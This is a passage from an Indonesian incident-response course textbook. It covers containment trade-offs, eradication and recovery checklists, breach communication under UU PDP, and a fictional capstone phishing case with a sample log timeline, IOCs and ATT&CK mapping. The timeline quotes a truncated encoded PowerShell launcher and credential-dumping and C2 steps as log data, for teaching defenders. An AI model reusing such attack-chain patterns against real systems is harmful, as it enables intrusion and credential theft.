**Studi Kasus:** Analisis tiga opsi: (a) Matikan seluruh jaringan segmen: PRO — containment total, mencegah penyebaran lebih jauh. KONTRA — business impact besar, mematikan host menghilangkan volatile evidence, jika attacker melihat respons mendadak mungkin trigger destructive payload tambahan. (b) Isolasi individual host via EDR: PRO — targeted, tidak mengganggu host yang tidak terinfeksi, host tetap online sehingga bisa dianalisis, evidence terjaga. KONTRA — perlu waktu lebih lama, file server yang mungkin sudah terinfeksi perlu tindakan berbeda. (c) Biarkan berjalan sambil monitoring: PRO — mendapat lebih banyak intel tentang attacker. KONTRA — setiap menit lebih banyak file terenkripsi, tidak etis untuk "biarkan kerusakan berlanjut" sementara bisa dicegah. REKOMENDASI: Opsi (b) sebagai tindakan utama sambil simultaneously mengassess dan (jika perlu) offline-kan file server setelah data volatile diamankan. Biarkan berjalan (c) hanya dapat dipertimbangkan jika enkripsi sudah berhenti dan attacker sedang dalam fase reconnaissance — tidak dapat dipertahankan jika data masih aktif terenkripsi.

## 11. Ringkasan Bab

Containment memiliki dua fase: short-term (segera menghentikan kerusakan aktif) dan long-term (mencegah re-infection selagi eradication disiapkan). Teknik isolasi mencakup network (VLAN, firewall), host (EDR contain, physical disconnect), akun (disable), dan cloud (security group). Setiap keputusan harus mempertimbangkan evidence preservation, business impact, lateral movement scope, dan attacker awareness. Semua tindakan harus didokumentasikan dalam containment decision log.

## 12. Refleksi Profesional

1. Dalam skenario ransomware terhadap rumah sakit, mematikan sistem untuk containment dapat membahayakan pasien yang bergantung pada sistem itu. Sebagai profesional keamanan siber, bagaimana Anda menangani konflik antara kewajiban keamanan informasi dan kewajiban keselamatan jiwa? Apakah ada panduan etika profesi atau regulasi yang relevan?

---

# BAB 11 — ERADICATION, RECOVERY, KOMUNIKASI, DAN HARDENING PASCA-INSIDEN

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Merancang proses eradication yang sistematis dan terverifikasi
- Menyusun rencana recovery yang mempertimbangkan validasi integritas sistem
- Menyusun komunikasi insiden untuk audiens yang berbeda (teknis, manajemen, eksternal)
- Mengidentifikasi hardening yang diperlukan berdasarkan temuan insiden

*Berkaitan dengan Sub-CPMK-4, Eval-4 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Post-Containment Phase] --> B[Eradication]
    B --> B1["Hapus malware dan\nartifak berbahaya"]
    B --> B2["Patch vulnerability\nyang dieksploitasi"]
    B --> B3["Hapus persistence\nmechanisms"]
    B --> B4["Reset compromised\ncredentials"]
    B --> B5["Verifikasi: tidak ada\nsisa malware"]
    A --> C[Recovery]
    C --> C1["Restore dari backup\nbersih terverifikasi"]
    C --> C2["Rebuild dari image\nbersih (jika perlu)"]
    C --> C3["Validasi integritas:\nbandingkan baseline"]
    C --> C4["Monitoring intensif\npasca-recovery"]
    A --> D[Communication]
    D --> D1["Internal: manajemen,\nstakeholders, karyawan"]
    D --> D2["Eksternal: regulator,\npartner, media (jika perlu)"]
    D --> D3["Pelanggan: jika data\nmereka terdampak"]
    A --> E[Hardening]
    E --> E1["Patch sistemik:\nbukan hanya satu sistem"]
    E --> E2["Kontrol tambahan:\nbukan hanya patch"]
    E --> E3["Lessons learned:\napa yang harus berubah"]
```

## 3. Pengantar Kontekstual

Eradication tanpa recovery yang benar adalah setengah pekerjaan. Recovery tanpa verifikasi adalah ilusi. Dan seluruh proses teknis ini menjadi tidak bermakna jika tidak dikomunikasikan dengan tepat kepada audiens yang tepat. Bab ini menyelesaikan lingkaran IR: dari penghapusan ancaman, pemulihan sistem, komunikasi yang profesional, hingga penguatan yang mencegah insiden serupa.

## 4. Landasan Teori

### 4.1 Eradication

**Prinsip eradication:** Jangan hanya hapus file malware — hapus SEMUA jejak: persistence mechanisms, akun yang dibuat attacker, scheduled tasks, services, backdoors.

**Checklist eradication:**
```
ERADICATION CHECKLIST — Host: [HOSTNAME]
=========================================
[ ] Memory: semua proses malware diterminasi
[ ] File system: file malware dihapus (catat path dan hash sebelum hapus)
[ ] Registry: semua registry keys terkait malware dihapus
    - Run/RunOnce keys
    - Service keys
    - Browser extensions berbahaya
[ ] Scheduled Tasks: semua task yang dibuat malware dihapus
    - Cek: schtasks /query /fo LIST /v | findstr /i "suspicious"
[ ] Services: semua service berbahaya dihapus
    - sc delete ServiceName
[ ] Startup entries: semua startup entry dibersihkan
[ ] Backdoor accounts: semua akun yang dibuat attacker dihapus
    - Bandingkan dengan baseline user list
[ ] Browser data: credential yang mungkin ter-steal (ganti password, revoke tokens)
[ ] Patch: vulnerability yang dieksploitasi sudah di-patch
[ ] IOC blocking: semua IOC sudah diblokir di perimeter
```

**Verifikasi eradication:**
```bash
# Scan dengan YARA rule yang dibuat dari malware analysis
yara -r malware_family_rules.yar /path/to/system/

# Verifikasi tidak ada koneksi ke C2 yang diketahui
netstat -an | grep "185.220.101.45"

# Cek scheduled tasks
schtasks /query /fo TABLE | findstr /i "suspicious_task_name"

# Verifikasi Run keys bersih
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
```

### 4.2 Recovery

**Recovery bukan hanya "hidupkan kembali" — harus divalidasi:**

1. **Restore dari backup yang diketahui bersih:** Tanggal backup harus sebelum initial access. Gunakan IOC dan timeline untuk menentukan kapan infeksi dimulai.
   ```
   Contoh: Infeksi diperkirakan mulai 2025-09-08 berdasarkan timeline
   Backup yang digunakan: 2025-09-07 23:00 (nightly backup sebelum infeksi)
   Verifikasi backup: bandingkan SHA-256 backup dengan catalog baseline
   ```

2. **Rebuild dari image bersih (jika diperlukan):** Jika backup tidak dapat dipercaya (mungkin malware sudah ada sejak lama), rebuild dari OS image bersih dan reinstall aplikasi dari source yang diverifikasi.

3. **Validasi integritas pasca-recovery:**
   ```bash
   # Bandingkan hash file kritis dengan baseline
   # Windows: file system integrity check
   sfc /scannow
   
   # Linux: verify installed packages integrity
   rpm -Va  # RPM-based
   debsums -c  # Debian/Ubuntu
   
   # Custom baseline comparison
   sha256sum -c /security/baseline_hashes.txt 2>&1 | grep FAILED
   ```

4. **Monitoring intensif pasca-recovery:** Selama minimal 72 jam setelah recovery, tingkatkan monitoring (EDR rules lebih ketat, alert threshold lebih rendah) untuk mendeteksi bila attacker mencoba kembali.

### 4.3 Komunikasi Insiden

Komunikasi yang buruk dapat menyebabkan lebih banyak kerusakan daripada insiden itu sendiri (kepanikan, rumor, kehilangan kepercayaan).

**Audiens dan pesan yang berbeda:**

**Manajemen Eksekutif / CISO:**
- Apa yang terjadi (ringkas, non-teknis)
- Dampak bisnis: sistem apa yang terdampak, data apa yang mungkin ter-compromise
- Status saat ini: apakah sudah di bawah kendali?
- Apa yang dilakukan tim
- Estimasi waktu pemulihan
- Risiko sisa yang perlu diketahui manajemen

**Tim Teknis Internal:**
- Detail teknis lengkap: IOC, teknik yang digunakan, sistem yang terdampak
- Tindakan yang diperlukan dari mereka (patch, monitoring, reset credentials)
- Timeline yang tepat
- Siapa yang harus dihubungi untuk koordinasi

**Karyawan (jika diperlukan):**
- Apa yang boleh dan tidak boleh mereka lakukan selama insiden
- Apakah sistem tertentu tidak tersedia sementara (dan estimasi kapan kembali)
- Jika credential mereka mungkin ter-compromise: instruksi ganti password
- Pesan harus: jelas, tidak menakutkan, action-oriented

**Eksternal — Regulasi (BSSN, OJK, dll.):**
Berdasarkan UU PDP No. 27/2022 Pasal 46: laporan ke regulator dalam 14 hari jika terjadi breach data pribadi. Konten laporan:
- Identifikasi data yang terdampak
- Perkiraan jumlah subjek data yang terdampak
- Kronologi insiden
- Tindakan yang telah diambil
- Tindakan yang direncanakan untuk mencegah terulang

**Template komunikasi insiden (untuk manajemen):**
```
SUBJECT: Security Incident Update — [Severity] — [Tanggal]

RINGKASAN EKSEKUTIF
Tim keamanan kami telah mendeteksi dan merespons insiden keamanan siber 
yang berdampak pada [deskripsi sistem]. Insiden saat ini telah [status: 
"berhasil dikendalikan" / "dalam proses penanganan"].

DAMPAK
- Sistem yang terdampak: [list]
- Data yang mungkin ter-expose: [deskripsi, atau "tidak ada indikasi eksfiltrasi data"]
- Layanan yang terganggu: [list] — estimasi recovery: [waktu]

TINDAKAN YANG TELAH DIAMBIL
1. [Deskripsi tindakan 1 dan hasilnya]
2. [Deskripsi tindakan 2 dan hasilnya]

LANGKAH SELANJUTNYA
1. [Action item 1] — Target: [tanggal]
2. [Action item 2] — Target: [tanggal]

PERTANYAAN? Hubungi: [Nama IR Lead] — [Kontak]
```

### 4.4 Post-Incident Hardening

Lessons learned tanpa hardening adalah latihan sia-sia. Setiap insiden harus menghasilkan perbaikan konkret:

| Temuan Insiden | Root Cause | Hardening Action | Priority |
|---|---|---|---|
| Initial access via phishing attachment | Email gateway tidak scan macro | Enable ATP attachment scanning; disable macros by policy | CRITICAL |
| Lateral movement via SMB | SMB v1 masih aktif; tidak ada segmentasi | Disable SMBv1; terapkan micro-segmentation | HIGH |
| Persistence via registry Run key | Tidak ada monitoring registry | Deploy Sysmon dengan rule untuk registry persistence | HIGH |
| No credential stuffing detection | Tidak ada lockout policy | Implement account lockout; deploy MFA semua akun | CRITICAL |
| Dwell time: 3 hari sebelum deteksi | SIEM rules tidak cover teknik yang digunakan | Update SIEM rules berdasarkan TTP yang ditemukan | HIGH |

## 5. Model atau Arsitektur

```mermaid
sequenceDiagram
    participant IR as IR Team
    participant MGMT as Management
    participant TECH as Technical Teams
    participant REG as Regulator (BSSN)
    participant USERS as Users/Customers
    
    IR->>MGMT: T+1h: Initial briefing (severity, scope, status)
    IR->>TECH: T+1h: Technical communication (IOC, actions needed)
    
    IR->>IR: Containment & Evidence Collection
    
    IR->>MGMT: T+4h: Status update (containment achieved, next steps)
    
    IR->>IR: Eradication & Verification
    
    IR->>MGMT: T+24h: Eradication complete, recovery plan
    IR->>USERS: T+24h: Notification (if data impacted)
    
    IR->>IR: Recovery & Monitoring
    
    IR->>REG: T≤14 days: Regulatory notification (UU PDP Pasal 46)
    
    IR->>MGMT: T+7d: Lessons learned & hardening plan
    IR->>TECH: T+7d: Technical hardening implementation
```

## 6. Contoh Terapan

**Skenario: Eradication setelah ransomware di WS-FINANCE-01:**

```bash
# Setelah containment dan analysis selesai, dalam VM terisolasi atau host yang
# sudah di-rebuild:

# 1. Verifikasi semua proses malware sudah tidak ada
Get-Process | Where-Object {$_.Name -in @("stage2", "malware_family")}
# Output: tidak ada → VERIFIED

# 2. Hapus scheduled task persistence
schtasks /delete /tn "CriticalUpdate" /f
# Verify:
schtasks /query /tn "CriticalUpdate"
# ERROR: The system cannot find the file specified → DELETED

# 3. Hapus registry persistence
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "updater" /f
# Verify:
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
# updater: NOT FOUND → VERIFIED

# 4. Scan dengan YARA
yara -r ransomware_lockfile_rules.yar C:\ --recursive 2>/dev/null
# Output: tidak ada match → CLEAN

# 5. Cek integritas sistem
sfc /scannow
# Windows Resource Protection did not find any integrity violations → CLEAN

# 6. Restore file yang terenkripsi dari backup 2025-09-07
robocopy \\backup-server\finance_backup_20250907 C:\Users\Finance /E /LOG:restore_log.txt
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun rencana eradication + recovery + komunikasi lengkap untuk skenario insiden.

**Aktivitas:** Berdasarkan skenario yang diberikan dosen (sama dengan Bab 10), lanjutkan dengan:
1. Tulis eradication checklist spesifik untuk skenario tersebut.
2. Tentukan: apakah restore dari backup atau rebuild? Mengapa?
3. Tulis dua versi komunikasi: satu untuk manajemen, satu untuk karyawan.
4. Identifikasi minimum 3 hardening action berdasarkan temuan insiden.
5. Susun timeline keseluruhan dari insiden detection hingga recovery selesai.

**Output:** IR response plan (eradication + recovery + communication) — bagian dari Eval-4.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa urutan eradication sebelum recovery sangat penting? Apa risiko jika recovery dilakukan tanpa eradication yang lengkap?

2. **(C5)** Setelah insiden ransomware, manajemen ingin segera memberikan pernyataan publik bahwa "situasi sudah terkendali sepenuhnya." Anda sebagai analis senior tahu bahwa investigasi belum selesai dan mungkin masih ada backdoor yang belum ditemukan. Bagaimana Anda menangani situasi ini?

## 9. Latihan Terapan / Studi Kasus

Organisasi Anda mengalami data breach: 50,000 data pelanggan (nama, alamat, nomor KTP) mungkin ter-exfiltrate. Berdasarkan UU PDP No. 27/2022: (a) dalam berapa hari Anda harus melapor ke regulator? (b) informasi apa yang harus ada dalam laporan tersebut? (c) siapa di organisasi yang harus terlibat dalam menyusun laporan ini (bukan hanya tim IT)? (d) apa yang harus dikomunikasikan kepada 50,000 pelanggan terdampak, dan bagaimana cara terbaik menyampaikannya?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Eradication harus mendahului recovery karena: (a) jika malware masih ada saat recovery dimulai, backup yang di-restore akan segera terinfeksi kembali — seluruh recovery effort sia-sia; (b) persistence mechanisms yang belum dihapus (registry Run key, scheduled task) akan kembali mengaktifkan malware setelah system restart; (c) backdoor yang belum dihapus memungkinkan attacker mengakses kembali sistem yang sudah di-recover; (d) vulnerability yang belum di-patch memungkinkan re-infection dalam menit setelah recovery. Risiko recovery tanpa eradication: "re-infection loop" — sistem terus terinfeksi ulang dan recovery berulang-ulang tanpa menyelesaikan masalah. Ini membuang waktu, resources, dan memperburuk downtime.

**Soal 2:** Ini adalah konflik etika profesional yang nyata dan serius. Tindakan yang tepat: (a) JANGAN setuju menyatakan "sepenuhnya terkendali" jika itu belum terbukti — ini adalah pernyataan yang berpotensi menyesatkan regulator, pelanggan, dan publik; (b) Komunikasikan kepada manajemen dengan jelas dan terdokumentasi: "Investigasi belum selesai. Ada kemungkinan backdoor yang belum ditemukan. Pernyataan 'sepenuhnya terkendali' sebelum investigasi selesai membawa risiko hukum dan reputasi bagi organisasi." (c) Tawarkan alternatif: "Kami dapat menyatakan bahwa insiden utama telah diisolasi dan kami aktif melakukan investigasi menyeluruh." (d) Dokumentasikan bahwa Anda telah mengomunikasikan risiko ini. Jika manajemen tetap memaksa pernyataan yang tidak akurat, ini adalah red flag tentang budaya etika organisasi dan mungkin perlu dipertimbangkan eskalasi.

**Studi Kasus UU PDP:** (a) 14 hari kalender sejak diketahuinya pelanggaran (UU PDP Pasal 46 ayat 1); (b) Konten laporan ke regulator: jenis data yang bocor, jumlah subjek data, kronologi insiden, sistem yang terdampak, tindakan yang telah dan akan diambil; (c) Pihak yang terlibat: selain tim IT/keamanan siber — Legal/Hukum (untuk kepatuhan regulasi), PR/Humas (untuk komunikasi publik), Direksi (untuk keputusan dan penandatanganan laporan resmi), HR (jika ada data karyawan), DPO (Data Protection Officer) jika ada; (d) Komunikasi ke 50,000 pelanggan: isi meliputi — apa yang terjadi (bahasa sederhana), data apa yang terdampak, apa yang sudah dilakukan organisasi, apa yang bisa pelanggan lakukan untuk melindungi diri (misalnya: hati-hati terhadap phishing menggunakan nama/alamat mereka, pertimbangkan credit monitoring), kontak untuk pertanyaan. Saluran: email pribadi (jika tersedia) + pengumuman di website resmi + apabila perlu: press release.

## 11. Ringkasan Bab

Eradication harus menghapus semua jejak malware (file, registry, scheduled tasks, services, backdoor accounts) dan diverifikasi sebelum recovery dimulai. Recovery menggunakan backup bersih yang terverifikasi atau rebuild dari image bersih, dengan validasi integritas dan monitoring intensif pasca-recovery. Komunikasi insiden harus disesuaikan dengan audiens (teknis, manajemen, eksternal, regulator) dan memenuhi kewajiban hukum (UU PDP: 14 hari). Setiap insiden harus menghasilkan hardening konkret.

## 12. Refleksi Profesional

1. Organisasi yang tidak mengungkapkan data breach dapat dikenai sanksi di bawah UU PDP dan kehilangan kepercayaan publik. Namun, pengungkapan yang terlalu dini (sebelum investigasi selesai) dapat memicu kepanikan dan memberi attacker informasi tentang apa yang kita ketahui. Bagaimana Anda menyeimbangkan kewajiban transparansi hukum dengan kebutuhan operasional investigasi yang efektif?


---

# BAB 12 — CAPSTONE FASE 1: ANALISIS INSIDEN TERINTEGRASI

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengintegrasikan seluruh keterampilan triage, timeline, dan IOC dalam satu kasus insiden nyata yang kompleks
- Mengkoordinasikan peran-peran dalam tim CSIRT secara simulatif
- Menghasilkan incident analysis report awal yang memenuhi standar profesional

*Berkaitan dengan Sub-CPMK-5, Eval-5/EAS (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Capstone Scenario] --> B[Phase 1: Initial Assessment]
    B --> B1["Alert triage:\nconfirm incident, severity"]
    B --> B2["Scope determination:\nhow many systems?"]
    B --> B3["Team coordination:\nroles, communication channel"]
    B --> B4["Evidence collection:\norder of volatility"]
    B --> C[Phase 2: Investigation]
    C --> C1["Timeline construction:\nall artifacts merged"]
    C --> C2["IOC extraction:\nnetwork + host + behavioral"]
    C --> C3["Root cause hypothesis"]
    C --> C4["ATT&CK mapping\nphase 1 TTPs"]
    B & C --> D[Deliverable: Initial Analysis Report]
    D --> D1["Executive Summary"]
    D --> D2["Scope & Impact"]
    D --> D3["Timeline (draft)"]
    D --> D4["IOC Table"]
    D --> D5["Next Steps (Phase 2)"]
```

## 3. Pengantar Kontekstual

Bab 12–14 membentuk capstone tiga-fase dari seluruh mata kuliah ini. Capstone dirancang untuk mensimulasikan incident response nyata secara end-to-end — dari alert pertama hingga laporan akhir kepada manajemen. Bab 12 memfokuskan pada fase investigasi awal: triage, evidence collection, timeline awal, dan IOC extraction. Mahasiswa bekerja dalam kelompok yang mensimulasikan tim CSIRT dengan pembagian peran yang jelas.

## 4. Landasan Teori

### 4.1 Skenario Capstone

**Organisasi:** PT Nusantara Digital (fiktif) — perusahaan fintech dengan 300 karyawan, 150 server, 2 data center, dan deployment cloud hybrid.

**Alert awal:**
- Jam 09:47 WIB, 15 Oktober 2025: EDR alert dari WS-CEO-01 — proses tidak dikenal mencoba mengakses LSASS
- Jam 09:52 WIB: Network IDS alert — traffic keluar ke IP 45.133.1.100 port 443 dari WS-CEO-01
- Jam 10:05 WIB: Email dari CEO kepada IT: "saya tidak sengaja buka email dari 'direktur baru' tadi pagi, ada masalah?"

**Dataset yang disediakan (oleh dosen):**
- Windows Security event log excerpt (WS-CEO-01)
- Sysmon log excerpt (WS-CEO-01)
- Firewall log excerpt (15 Oktober 2025, 08:00 - 12:00)
- Email phishing yang diterima CEO (sanitized — links diganti dengan deskripsi)
- Network PCAP excerpt (sanitized — payload terenkripsi, hanya metadata)

### 4.2 Pembagian Peran Tim CSIRT (Simulasi)

| Peran | Tanggung Jawab | Anggota |
|---|---|---|
| IR Lead | Koordinasi tim, keputusan containment, komunikasi ke manajemen | [Nama Mahasiswa] |
| Forensic Analyst | Evidence collection, timeline construction, artifact analysis | [Nama Mahasiswa] |
| Malware Analyst | Analisis email phishing, payload identification, IOC extraction | [Nama Mahasiswa] |
| Network Analyst | Analisis network logs, C2 traffic, lateral movement | [Nama Mahasiswa] |
| Scribe/Documenter | Pencatatan semua tindakan dan temuan dalam real-time | [Nama Mahasiswa] |

### 4.3 Proses Investigasi Fase 1

**Langkah 1: Alert Triage (15 menit pertama)**
```
Pertanyaan yang harus dijawab:
1. Apakah ini true positive atau false positive?
   → Cek EDR alert: apakah proses yang mencoba akses LSASS dikenal?
   → Cek network alert: apakah IP 45.133.1.100 dikenal/legitimate?
   
2. Jika true positive, apa severity-nya?
   → Terapkan severity matrix: functional impact, information impact, recoverability
   
3. Apa scope awal yang teridentifikasi?
   → Hanya WS-CEO-01 yang ter-alert? Atau ada sistem lain?
```

**Langkah 2: Evidence Collection (terkoordinasi)**
```
Berdasarkan order of volatility (RFC 3227):
1. Network connections (ss -an, netstat)
2. Running processes (ps aux, tasklist)
3. Memory (memory dump — jika tools tersedia di lab)
4. Log files (Windows Event Log, Sysmon, firewall)
5. Disk image (tidak selalu perlu di fase awal)
```

**Langkah 3: Initial Timeline Construction**
```
Merge semua log, normalisasi ke UTC, sort by timestamp:

[UTC] Timestamp         | Source        | Event
2025-10-15 01:32 UTC   | Email Gateway | Phishing email diterima, attachment: "Surat_Tugas_CEO.docm"
2025-10-15 01:33 UTC   | EDR           | WS-CEO-01: Word.exe spawned cmd.exe
2025-10-15 01:33 UTC   | Sysmon        | Event 1: cmd.exe → powershell.exe -NoP -Exec Bypass -E ...
2025-10-15 01:34 UTC   | Sysmon        | Event 3: Network conn: powershell.exe → 45.133.1.100:443
2025-10-15 01:34 UTC   | Firewall      | ALLOW TCP 192.168.1.200:49231 → 45.133.1.100:443
2025-10-15 01:34 UTC   | Sysmon        | Event 11: File created: C:\Users\CEO\AppData\Roaming\.x\stage2.exe
2025-10-15 01:35 UTC   | Sysmon        | Event 1: stage2.exe executed
2025-10-15 01:35 UTC   | Sysmon        | Event 10: stage2.exe → access to lsass.exe (credential dumping!)
2025-10-15 01:36 UTC   | Sysmon        | Event 3: stage2.exe → 45.133.1.100:443 (beacon)
2025-10-15 01:42 UTC   | Sysmon        | Event 3: stage2.exe → DC01 (192.168.1.10):445 (SMB — lateral attempt!)
```

**Langkah 4: Initial IOC Extraction**
```
NETWORK IOC:
- IP: 45.133.1.100 (C2 server — TI: known Cobalt Strike C2)
- Domain: [dari email phishing] update-hrd.nusantara-digital.co.id (typosquat!)

HOST IOC:
- File: C:\Users\CEO\AppData\Roaming\.x\stage2.exe
  SHA256: [dari EDR/Sysmon log]
- File: C:\Users\CEO\Downloads\Surat_Tugas_CEO.docm
  SHA256: [dari email gateway log]
- Registry: [jika teridentifikasi dari Sysmon Event 13]

BEHAVIORAL IOC:
- Word.exe spawning cmd.exe → powershell.exe (spearphishing execution chain)
- LSASS access attempt (credential dumping)
- SMB lateral movement attempt to DC01
```

## 5. Model atau Arsitektur

```mermaid
gantt
    title Capstone Phase 1 - Timeline Aktivitas Tim CSIRT
    dateFormat  HH:mm
    axisFormat %H:%M
    
    section Alert & Triage
    Receive alert & initial triage :crit, 09:47, 20m
    Confirm true positive, set severity :09:52, 15m
    Brief management (IR Lead) :10:07, 10m
    
    section Evidence Collection
    Network state capture :10:00, 15m
    Process capture :10:00, 15m
    Log collection (Security, Sysmon, Firewall) :10:05, 30m
    Email phishing analysis :10:10, 30m
    
    section Analysis
    Timeline normalization & construction :10:35, 45m
    IOC extraction :10:50, 30m
    Root cause hypothesis :11:20, 20m
    ATT&CK mapping draft :11:20, 20m
    
    section Reporting
    Draft Initial Analysis Report :11:40, 45m
    Briefing to management :12:30, 20m
```

## 6. Contoh Terapan

**Root Cause Hypothesis — Fase 1:**

```
ROOT CAUSE HYPOTHESIS — DRAFT AWAL
====================================
Tanggal: 15 Oktober 2025, 12:00 WIB
Analis: Tim IR FDKS

HIPOTESIS UTAMA:
Attacker mengirim spearphishing email ke CEO menggunakan domain typosquat
yang menyerupai domain internal (update-hrd.nusantara-digital.co.id). CEO
membuka dokumen Word yang mengandung macro berbahaya. Macro mengeksekusi
PowerShell downloader yang mengunduh dan menjalankan implant (stage2.exe).
Implant melakukan credential dumping (LSASS access) dan mencoba lateral
movement ke DC01 via SMB.

CONFIDENCE: MEDIUM-HIGH
BASIS: Timeline konsisten dengan execution chain yang terobservasi.
       Konfirmasi diperlukan: apakah DC01 berhasil dikompromis?

KESENJANGAN EVIDENCE:
1. Tidak diketahui apakah lateral movement ke DC01 berhasil
   → ACTION: Analisis log DC01 (Fase 2)
2. Tidak diketahui apakah credential yang dicuri sudah digunakan
   → ACTION: Cek AD login history untuk akun CEO
3. Tidak diketahui full scope — apakah ada host lain yang terinfeksi?
   → ACTION: Network sweep untuk koneksi ke C2 IP

ATTACKER OBJECTIVE (hipotesis): Credential harvesting untuk eskalasi
ke domain admin, kemungkinan bertujuan financial fraud atau data exfiltration.

ATT&CK PHASE 1:
T1566.001 (Spearphishing Attachment) → T1204.002 (Malicious File) →
T1059.001 (PowerShell) → T1003.001 (LSASS Memory) → T1021.002 (SMB)
```

## 7. Praktikum atau Aktivitas Terarah

**Capstone Phase 1 — Aktivitas Tim:**

1. Dosen mendistribusikan dataset capstone (log files, email analysis, network data) kepada setiap kelompok.
2. Kelompok menjalankan simulasi CSIRT selama 90 menit:
   - 15 menit: triage dan pembagian tugas
   - 45 menit: analisis paralel (masing-masing analis mengerjakan spesialisasinya)
   - 30 menit: konsolidasi temuan dan penyusunan Initial Analysis Report
3. Kelompok mempresentasikan Initial Analysis Report kepada kelas dalam 10 menit.
4. Q&A dan peer review antar kelompok (15 menit).

**Output:** Draft Initial Incident Analysis Report — komponen 1/3 dari Capstone Report (Eval-5).

## 8. Latihan Pemahaman

1. **(C4)** Dalam skenario capstone, mengapa hipotesis "lateral movement ke DC01" memerlukan MEDIUM confidence (bukan HIGH) meskipun ada Sysmon Event 3 yang menunjukkan koneksi SMB ke DC01?

2. **(C5)** Jika Anda adalah IR Lead dalam skenario ini dan manajemen meminta kepastian apakah "data pelanggan aman," apa yang akan Anda jawab pada jam 12:00 WIB (3 jam setelah insiden dimulai)?

## 9. Latihan Terapan / Studi Kasus

Berdasarkan timeline Fase 1 yang sudah dibangun, tentukan: (a) 3 pertanyaan investigasi paling kritis yang harus dijawab di Fase 2; (b) bukti spesifik apa yang diperlukan untuk menjawab setiap pertanyaan; (c) di mana mencari bukti tersebut (sistem apa, log apa); (d) adakah tindakan containment yang harus diambil segera sebelum Fase 2 dimulai? Jika ya, apa justifikasinya?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Sysmon Event 3 hanya menunjukkan bahwa koneksi TCP ke DC01:445 dimulai dari stage2.exe — ini berarti koneksi berhasil dibuat di level network (3-way handshake). Namun, "lateral movement berhasil" memerlukan lebih dari sekadar koneksi: perlu diketahui apakah autentikasi berhasil (apakah credential yang dicuri valid dan digunakan?), apakah ada tindakan yang berhasil dilakukan di DC01 setelah koneksi (file access, proses baru, dll.). Untuk konfirmasi, perlu memeriksa: DC01 Security event log (Event 4624 — successful logon, khususnya logon type 3 dari IP WS-CEO-01 sekitar jam 01:42 UTC), DC01 Sysmon log (apakah ada proses baru yang dijalankan?). Tanpa data ini, confidence tetap MEDIUM karena koneksi ≠ kompromi berhasil.

**Soal 2:** Jawaban yang tepat dan profesional: "Saat ini, kami belum dapat memastikan status keamanan data pelanggan karena investigasi masih berlangsung. Yang sudah kami konfirmasi: satu workstation (milik CEO) dikompromis melalui phishing. Yang masih kami investigasi: apakah attacker berhasil mengakses domain controller dan sistem lain, termasuk database pelanggan. Kami memperkirakan dapat memberikan assessment yang lebih definitif dalam 4-6 jam ke depan setelah analisis fase 2 selesai. Jika bukti menunjukkan data pelanggan terdampak, kami akan segera mengaktifkan prosedur notifikasi sesuai UU PDP." Jawaban ini honest (tidak overclaim), sets expectation, dan shows professionalism.

**Studi Kasus:** (a) Tiga pertanyaan kritis: 1) Apakah DC01 berhasil dikompromis — apakah attacker punya domain admin access? 2) Apakah ada host lain yang terkoneksi ke C2 atau menunjukkan IOC yang sama? 3) Apakah ada data exfiltration sebelum deteksi? (b) Bukti yang diperlukan: 1) DC01 Security log Event 4624 logon type 3 dari WS-CEO-01; 2) Network-wide threat hunt: koneksi ke 45.133.1.100 dari semua host; 3) Bandwidth analysis firewall log: outbound traffic besar-besaran sebelum deteksi. (c) Lokasi: 1) DC01 SIEM/event log; 2) Firewall/NetFlow untuk semua hosts; 3) Proxy log atau firewall egress log. (d) Containment segera: ISOLASI WS-CEO-01 (sudah semestinya dilakukan) dan BLOKIR IP 45.133.1.100 di firewall segera — ini menghentikan C2 communication aktif dari semua host yang mungkin terinfeksi tanpa menunggu Fase 2 selesai.

## 11. Ringkasan Bab

Fase 1 capstone mencakup alert triage, evidence collection berdasarkan order of volatility, initial timeline construction, IOC extraction, dan formulasi root cause hypothesis awal. Pembagian peran CSIRT memungkinkan analisis paralel. Output adalah Initial Incident Analysis Report yang menjadi basis untuk Fase 2 (malware analysis) dan Fase 3 (full CSIRT report).

## 12. Refleksi Profesional

1. Dalam simulasi capstone, setiap anggota tim CSIRT memiliki peran yang terdefinisi. Namun dalam insiden nyata, mungkin hanya ada satu atau dua analis yang tersedia. Bagaimana Anda memprioritaskan tugas jika harus menangani insiden ini seorang diri? Apa trade-off yang harus Anda buat?

---

# BAB 13 — CAPSTONE FASE 2: ANALISIS MALWARE DALAM KONTEKS INSIDEN

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengintegrasikan malware analysis ke dalam investigasi insiden yang sedang berjalan
- Memperkuat root cause analysis dengan temuan dari behavioral analysis
- Memperluas ATT&CK mapping berdasarkan malware capabilities yang teridentifikasi
- Menyempurnakan IOC table dengan temuan dari malware analysis

*Berkaitan dengan Sub-CPMK-5, Eval-5/EAS (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Phase 1 Findings] --> B[Phase 2: Malware Analysis]
    B --> C[Static Analysis stage2.exe]
    C --> C1["File ID & hash"]
    C --> C2["Strings: additional IOC"]
    C --> C3["PE imports: capabilities"]
    C --> C4["Packer check"]
    B --> D[Behavioral Analysis stage2.exe]
    D --> D1["Process tree: spawned children?"]
    D --> D2["Network: beacon interval,\nprotocol, encoding"]
    D --> D3["Registry: persistence"]
    D --> D4["Files: additional dropped payloads?"]
    B --> E[Enhanced Investigation]
    E --> E1["Extended timeline:\nmalware behaviors added"]
    E --> E2["Extended IOC table:\nall findings from analysis"]
    E --> E3["TTP mapping complete:\nphase 1 + phase 2 TTPs"]
    E --> F[Phase 2 Report Section]
    F --> F1["Malware classification"]
    F --> F2["Capability assessment"]
    F --> F3["Updated IOC table"]
    F --> F4["Hardening recommendations\nbased on capabilities"]
```

## 3. Pengantar Kontekstual

